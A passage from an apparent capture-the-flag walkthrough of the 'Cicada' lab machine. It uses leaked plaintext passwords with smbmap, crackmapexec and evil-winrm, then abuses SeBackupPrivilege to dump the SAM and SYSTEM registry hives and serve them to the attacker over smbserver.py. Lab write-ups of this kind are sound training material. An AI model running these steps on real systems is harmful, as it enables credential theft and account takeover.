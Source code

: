 As with the previous user, David is not member of the Remote Management Users so we can't connect through winrm.
If we try to access to his shared files, we will see that we have access to the DEV directory.


```sh
smbmap -H 10.10.11.35 -u 'david.orelious' -p 'aRt$Lp#7t*VQ!3'
smbmap -H 10.10.11.35 -u 'david.orelious' -p 'aRt$Lp#7t*VQ!3' -r DEV
```

In this directory we found a powershell script which we can download to see the content.

```sh
smbmap -H 10.10.11.35 -u 'david.orelious' -p 'aRt$Lp#7t*VQ!3' --download 'DEV\Backup_script.ps1'
```

![2Pic]({{ '/assets/img/cicada/8pic.png' | relative_url }}){: .center-image }

In this file we can see a plain text password which belongs to the user Emily. Once we can use crackmapexec to check if we are able to connect to the machine using evil-winrm.

```sh
crackmapexec winrm 10.10.11.35 -u 'emily.oscars' -p 'Q!3@Lp#M6b*7t*Vt'
```

![2Pic]({{ '/assets/img/cicada/9pic.png' | relative_url }}){: .center-image }

The "pwned" word means that we can connect through winrm.

```sh
evil-winrm -i 10.10.11.35 -u 'emily.oscars' -p 'Q!3@Lp#M6b*7t*Vt'
```

## Privilege Escalation

After a short enumeration we see that Emily is member of **SeBackupPrivilege** group, which allows to obtain the content of files even if the user doesn't have permissions to access them.
```sh
whoami /priv
```
![Pic]({{ '/assets/img/cicada/10pic.png' | relative_url }}){: .center-image }

To abuse of this we can copy the administrator flag into any directory or try to get an interactive shell by copying the system and sam files which is the option I am going to do.


```sh
mkdir C:\temp
reg save hklm\sam C:\temp\sam
reg save hklm\system C:\temp\system
```

![Pic]({{ '/assets/img/cicada/11pic.png' | relative_url }}){: .center-image }

Now with **smbserver.py** we can transfer these files into our machine.

```sh
python3 smbserver.py smbFolder $(pwd) -smb2support
```
